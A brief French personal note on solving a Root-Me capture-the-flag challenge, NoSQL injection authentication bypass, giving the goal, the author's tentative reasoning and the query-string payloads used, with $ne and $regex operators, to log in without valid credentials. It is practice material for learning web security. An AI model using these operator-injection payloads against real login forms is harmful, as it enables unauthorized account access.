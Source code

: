 <script src="../../../js/password-protect.js"></script>

---
categorie: ???
tags:
  - rootme
  - "#informatique/cyber"
lien: https://www.root-me.org/fr/Challenges/Web-Serveur/NoSQL-injection-Authentification
---
# But

trouver le nom de l'utilisateur cachÃ©

# Fourni

# MÃ©thode de rÃ©solution


http://challenge01.root-me.org/web-serveur/ch38/?login[$ne]=toto&pass[$ne]=toto# 


je suis allÃ© sur hacktricks pour voir comment fonctionne une injection no sql

j'ai pu fazire quelques tests, et me connecter ne admin avec cette commande : 

http://challenge01.root-me.org/web-serveur/ch38/?login[$ne]=toto&pass[$ne]=toto

je crois que je peux me connecter en tant que login not equal toto 
mais je ne suis pas sur de savoir pourquoi admin
# Solution

login[$ne]=toto&pass[$regex]=a.{2}



